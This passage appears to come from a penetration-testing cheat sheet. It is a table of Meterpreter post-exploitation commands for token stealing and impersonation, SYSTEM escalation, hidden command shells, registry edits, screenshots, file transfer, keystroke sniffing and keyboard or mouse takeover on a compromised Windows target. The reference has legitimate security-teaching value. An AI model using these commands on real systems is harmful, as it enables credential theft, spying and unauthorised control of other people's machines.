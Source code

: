 | ``migrate <proc. id>`` | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |

| ``use incognito`` | Load incognito functions. (Used for token stealing and impersonation on a target machine.) |

| ``list_tokens -u`` | List available tokens on the target by user. |

| ``list_tokens -g`` | List available tokens on the target by group. |

| ``impersonate_token <DOMAIN_NAMEUSERNAME>`` | Impersonate a token available on the target. |

| ``steal_token <proc. id>`` | Steal the tokens available for a given process and impersonate that token. |

| ``drop_token`` | Stop impersonating the current token. |

| ``getsystem`` | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors. |

| ``shell`` | Drop into an interactive shell with all available tokens. |

| ``execute -f <cmd.exe> -i`` | Execute cmd.exe and interact with it. |

| ``execute -f <cmd.exe> -i -t`` | Execute cmd.exe with all available tokens. |

| ``execute -f <cmd.exe> -i -H -t`` | Execute cmd.exe with all available tokens and make it a hidden process. |

| ``rev2self`` | Revert back to the original user you used to compromise the target. |

| ``reg <command>`` | Interact, create, delete, query, set, and much more in the target’s registry. |

| ``setdesktop <number>`` | Switch to a different screen based on who is logged in. |

| ``screenshot`` | Take a screenshot of the target’s screen. |

| ``upload <filename>`` | Upload a file to the target. |

| ``download <filename>`` | Download a file from the target. |

| ``keyscan_start`` | Start sniffing keystrokes on the remote target. |

| ``keyscan_dump`` | Dump the remote keys captured on the target. |

| ``keyscan_stop`` | Stop sniffing keystrokes on the remote target. |

| ``getprivs`` | Get as many privileges as possible on the target. |

| ``uictl enable <keyboard/mouse>`` | Take control of the keyboard and/or mouse. |
